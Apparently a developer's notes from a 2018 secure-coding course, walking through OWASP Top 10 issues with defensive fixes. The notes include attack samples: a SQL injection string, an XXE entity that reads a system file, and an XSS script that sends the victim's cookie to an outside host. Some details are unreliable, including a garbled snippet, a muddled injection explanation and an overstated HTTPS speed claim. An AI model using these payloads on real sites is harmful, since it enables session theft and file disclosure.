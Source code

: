 # Secure Coding Practices
This is an Alaska Airlines course on 12.17.18, and goes through good, secure coding practices, specifically designed for web developers.

## Takeaway: Test/scan every single day - test before it's too late

## A1: Injections
The most common form of exploit is SQL injections. The best way to protect against that is to use parameterized queries, because even valid data can be exploited. An example of a bad sql request:
```js
let email = `'jim'or'1'!=test@test.com`; // valid email!
let sql = `select * from sensitive_information where email = ${email}`;
```
When this is queried, it will see that 1 will **never** be equal to `test`, and since it's in an `or` statement, this will fire and get data back when it shouldn't.

### Solution: Parameterized Queries
```js
// This is a Nodejs example
let sql = `select * from sensitive_information where email = ?`;
let name = req.params.name; // get the name from the request
db.query(sql, [name]).then(...);
```

## A3: Sensitive Data Exposure
**ALWAYS** use `https` over `http`. It's more secure, it's encrypted, and if it's well configured, `https` can run 800-1000% faster than `http`.

### Transport Layer Protection (HTTPS)
**Protect multiple appropriate mechanisms**
- Use TLS on all connections. Do not tolerate plaintext communication
- Use HSTS (HTTP Strict Transport Securiy) and preloading
- Individually excrypt messages before transmission
  - JSON web encryption
- Sign messages before transmission

**Use the mechanisms correctly**
- Use the standard strong algorithms (disable old SSL algs)
- Manage keys/certs properly
- Verify TLS certs before using them
- Use proven mechanisms when sufficient

### Cryptographic Storage
**Verify your architecture**
- Identify all sensitive data and all the places that data is stored
- Ensure threat model accounts for possible attacks
- Use encryption to counter the threats, don't just 'encrypt' the data

**Protect with appropriate mechanisms**
- File encryption, database encryption, data element encryption

**Use a form of secrets meanagement to protect application secrets**
- Azure KeyVault

## A4: XML External Entity (XXE)
XML eXternal Entity injection (XXE), which is now part of the OWASP Top 10, is a type of attack against an application that parses XML input.

This attack occurs when untrusted XML input containing a reference to an external entity is processed by a weakly configured XML parser.

This attack may lead to the disclosure of confidential data, denial of service, Server Side Request Forgery (SSRF), port scanning from the perspective of the machine where the parser is located, and other system impacts. The following guide provides concise information to prevent this vulnerability. More information can be found [here](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Prevention_Cheat_Sheet).
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo any>
  <!ENTITY xxe SYSTEM "file:///etc/password">
]>
```

### Solution: Turn off many XML features

### SQL Integrated Access Control
Example feature: `https://mail.example.com/viewMessage?msgid=123456`  

Someone would be able to write a script in 5 minutes to use all kinds of IDs in the request in a web request. Here, we need to have good access control design.

Ensure the owner is referenced in the query:
```sql
select * from messages where messageid = 123456 and messages.message_owner = <userid_from_session>
```

## A7: Cross Site Scripting (XSS)
This is a prolific problem, and there's no real good solution to it - according to that guy. The problem is that web standards create this issue.

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page.

### Reflected XSS
Reflected attacks are those where the injected script is reflected off the web server, such as in an error message, search result, or any other response that includes some or all of the input sent to the server as part of the request. Reflected attacks are delivered to victims via another route, such as in an e-mail message, or on some other website. When a user is tricked into clicking on a malicious link, submitting a specially crafted form, or even just browsing to a malicious site, the injected code travels to the vulnerable web site, which reflects the attack back to the user’s browser. The browser then executes the code because it came from a "trusted" server. Reflected XSS is also sometimes referred to as Non-Persistent or Type-II XSS.

### XSS Attack: Cookie Theft
```html
<!-- This would take the user's cookie -->
<script>
var badURL = `https://manicode.com?data=' + uriEncode(document.cookie'`;
var img = new Image();
img.src = badURL;
</script>
```

### XSS Defense by data type and context: there's a table somewhere

## A8: Insecure Deserialization
Serialization is the process of turning some object into a data format that can be restored later. People often serialize objects in order to save them to storage, or to send as part of communications. Deserialization is the reverse of that process -- taking data structured from some format, and rebuilding it into an object. Today, the most popular data format for serializing data is JSON. Before that, it was XML.

However, many programming languages offer a native capability for serializing objects. These native formats usually offer more features than JSON or XML, including customizability of the serialization process. Unfortunately, the features of these native deserialization mechanisms can be repurposed for malicious effect when operating on untrusted data. Attacks against deserializers have been found to allow denial-of-service, access control, and remote code execution attacks.

**2016 was the year of Java Deserialization apocalypse**
- Known vector since 2011 which allows RCE!
- Previous lack of good RCE gadgets in common libraries
- Apache Commons-Collections Gadgets caught many off-guard

### Solution: Go through JSON schema security

## A9: Using Known Vulnerable Components
Some 3rd party libraries are not secure and are easy to exploit. The biggest example was a remote execution attack to Equifax in 2017. This was the biggest breach in history. 

### Solution: Retire old vulnerable packages
Seriously, retire those old ass punks.